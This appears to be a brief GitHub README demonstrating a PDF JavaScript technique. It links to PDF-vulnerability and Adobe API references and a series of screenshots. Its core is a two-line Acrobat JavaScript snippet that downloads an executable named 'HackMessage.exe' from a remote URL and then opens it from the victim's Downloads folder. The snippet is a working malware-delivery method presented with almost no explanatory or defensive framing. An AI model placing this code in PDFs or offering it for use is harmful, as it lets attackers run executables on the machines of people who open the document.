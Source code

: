 # Adobe Javascript Download & "Open"

http://blog.nsfocus.net/pdf-vul/
https://www.adobe.com/content/dam/acom/en/devnet/acrobat/pdfs/js_api_reference.pdf
https://helpx.adobe.com/tw/acrobat/using/enhanced-security-setting-pdfs.html
![](https://i.imgur.com/7HOVdCZ.png)
![](https://i.imgur.com/0A9lrnN.png)
![](https://i.imgur.com/QG8jmBC.png)
```
app.launchURL("https://github.com/NotSurprised/PdfJavascriptDownloader/raw/master/HackMessage.exe/", false);
this.getURL("file:////C://Users//User//Downloads//HackMessage.exe", false);
```
![](https://i.imgur.com/dGcIjlw.png)
![](https://i.imgur.com/8OraySS.png)
![](https://i.imgur.com/EIqWVkD.png)
![](https://i.imgur.com/Oe8B9Xq.png)
